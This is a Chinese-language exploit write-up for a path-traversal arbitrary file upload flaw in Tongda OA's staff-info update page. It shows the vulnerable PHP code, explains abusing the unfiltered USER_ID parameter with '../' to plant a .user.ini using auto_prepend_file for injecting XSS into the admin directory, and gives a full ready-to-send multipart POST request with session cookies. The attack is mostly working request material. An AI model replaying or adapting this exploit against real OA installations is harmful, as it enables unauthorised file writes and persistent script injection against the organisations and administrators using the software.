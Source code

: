 ```php
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```

![](/img/20210924015129851920.png)

在这里参数 **$USER_ID** 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 **../../../** 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 **.user.ini** 文件来包含其他文件，这里是可以用于包含XSS语句的文件的，所以我们上传文件

内容为

```
auto_prepend_file=peiqi.log
```

我们想要最大化利用可以上传在**首页或者管理员** 界面，利用自定义弹窗来渗透

这里对管理员页面 **general** 目录上传

请求包为

```
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```
